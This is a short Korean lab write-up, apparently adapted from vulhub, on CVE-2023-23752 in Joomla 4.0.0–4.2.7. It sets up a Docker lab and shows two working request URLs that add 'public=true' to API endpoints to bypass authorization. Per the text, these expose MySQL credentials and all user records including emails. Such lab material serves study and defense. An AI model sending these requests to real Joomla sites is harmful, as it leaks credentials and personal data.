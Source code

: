 # **CVE-2023-23752 - Joomla improper access check in webservice endpoints Poc**


Joomla는 Mysql 데이터베이스를 이용하여 웹 안에서 다양한 컨텐츠를 관리할 수 있고 다양한 언어도 함께 지원하고 PHP 기반 오픈 소스 저작물 관리 시스템입니다.

Joomla 4.0.0부터 4.2.7까지에서 문제가 발견되었습니다.

## 참고 문헌


- https://github.com/vulhub/vulhub/tree/master/joomla/CVE-2023-23752
- [https://ko.wikipedia.org/wiki/줌라](https://ko.wikipedia.org/wiki/%EC%A4%8C%EB%9D%BC)

## 취약 환경


Joomla 서버 4.2.7을 시작하기 위해 다음 명령어를 실행합니다.

```bash
docker compose up -d
```

서버가 시작된 후, 웹 브라우저에서 [`http://your-ip:8080`](http://your-ip:8080/) 접속할 수 있습니다.

## **Exploit**


이 문제는 속성(attribute) 덮어쓰기 문제로 인해 발생하며, 공격자는 `public=true` 값을 사용하여 인가(authorization) 검사를 우회할 수 있습니다.

```bash
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![image1.png](attachment:74e75e07-6d1d-44e4-9872-8eaabf560d92:image.png)

MySQL 사용자 이름과 비밀번호를 포함한 것들을 공개:

![image2.png](attachment:5c5fcafc-05c9-4edf-848b-9c5b7c3afb9b:image.png)

`public=true` 를 하지 않으면 접근 허가되지 않습니다.

```bash
http://your-ip:8080/api/index.php/v1/users?public=true
```

![image3.png](attachment:36ac94fe-0b2e-4c81-8def-64514c75dead:image.png)

이메일을 포함한 모든 사용자 정보를 공개:
